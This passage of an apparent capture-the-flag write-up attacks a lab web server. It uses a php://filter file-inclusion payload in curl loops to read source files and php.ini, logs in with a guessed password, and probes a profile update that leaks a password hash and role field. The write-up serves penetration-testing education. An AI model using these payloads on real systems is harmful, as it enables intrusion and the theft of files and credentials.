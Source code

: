 I then `grep`'d those files to find included PHP files and downloaded the new files.

```sh
$ grep include files/* | grep -oE '".*"' | cut -d '"' -f2 | sort -u | while read line; do curl -s "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=$line" | base64 -d > files/$(echo $line | sed 's/\//_/g'); done
```

Here, `admin_auth_check.php` and `auth_check.php` are the only files not previously known. However, checking those files doesn't give us anything special like credentials.

I also tried grabbing `php.ini`. The following one-liner gets `php.ini` while also determining the PHP version on the server.

```sh
seq 1 30 | while read line; do curl -s "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/php/7.$line/apache2/php.ini" | base64 -d > "7.$line"; done
```

This reveals that the server is using PHP 7.2. However, there's not much useful information in the file besides `disable_functions`.

Going back to the exfiltrated `/etc/passwd`, the only non-root user with a shell is `aaron`. I tried `aaron:aaron` (same password and username) on `login.php` and logged in as user 2. Looking back at the `gobuster` result, the only interesting end-points we haven't looked at yet are `profile.php` and `upload.php`. We might be able to upload PHP files and have `image.php` `include` it for execution. We'll probably need to use `image.php` since `upload.php` checks the final file extension, making sure it's `jpg`, as well as changes the file name to a seemingly random MD5 hash. This means we can't execute the uploaded PHP just by navigating to it due to the file extension. We can, however, execute the code by have another page `include` it. Unfortunately, to get to `upload.php`, we must first have a session with `role` set to `1`. Our current `role` for `aaron` is `2`, so we need to change it to `1` somehow.

Digging around, I decided to try looking at `profile.php` and its update requests. Copy an update request as a `curl` command gives the following after some manual header stripping.

```sh
$ curl 'http://10.10.11.135/profile_update.php' -X POST -H 'Cookie: PHPSESSID=<SESS>' --data-raw 'firstName=test&lastName=test&email=test&company=test'
{
    "id": "2",
    "0": "2",
    "username": "aaron",
    "1": "aaron",
    "password": "$2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq",
    "2": "$2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq",
    "lastName": "test",
    "3": "test",
    "firstName": "test",
    "4": "test",
    "email": "test",
    "5": "test",
    "role": "0",
    "6": "0",
    "company": "test",
    "7": "test"
}
```
